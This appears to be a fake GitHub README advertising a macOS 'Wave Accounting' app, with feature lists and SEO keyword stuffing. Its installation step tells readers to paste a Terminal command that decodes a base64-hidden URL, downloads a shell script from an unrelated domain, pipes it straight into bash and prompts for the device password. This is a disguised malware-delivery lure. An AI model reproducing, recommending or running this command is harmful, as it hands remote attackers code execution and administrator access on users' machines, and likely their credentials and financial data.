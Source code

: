 # 📘 Wave Accounting – Small Business Finance App for macOS

📌 About Wave Accounting  
Wave Accounting for macOS is a desktop-friendly solution tailored to freelancers and small business owners who want an intuitive way to manage income, expenses, invoicing, and financial reports. This version wraps the official Wave web platform in a native-like macOS interface with faster access, offline caching, and support for Apple Silicon. Perfect for entrepreneurs who want clean books and streamlined operations.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://lh3.googleusercontent.com/bD4m1i6DRFELyjbZqDPA7s54OW431vyhGSnvv_0qBRE2Yo6FnzjPDskmK5RhqE_H2bQE4uNEZA=w1280-h800)  
- ![](https://www.accountsjunction.com/BlogImg/all-you-need-to-know-about-wave-accounting.png)  

## 🎯 Key Features  
⚡️ Create and send invoices with automatic payment reminders.  
🔒 Secure login with encrypted connection and data handling.  
⚙️ Track income and categorize expenses with smart rules.  
🚀 Fast app launch and smoother experience on Apple Silicon.  
🎨 Native macOS integration with system tray and Dark Mode.  
📊 Access real-time reports, balances, and customer history.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 250 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`wave accounting macos` · `free accounting software mac` · `small business finance app` · `wave invoice manager mac` · `track expenses macos` · `macos accounting dashboard` · `apple silicon accounting tool` · `freelance invoicing software mac` · `real-time financial reports mac` · `secure finance app mac` · `wave desktop client mac` · `mac bookkeeping tool` · `business expense tracker` · `macos invoice and payment app` · `wave app for entrepreneurs`
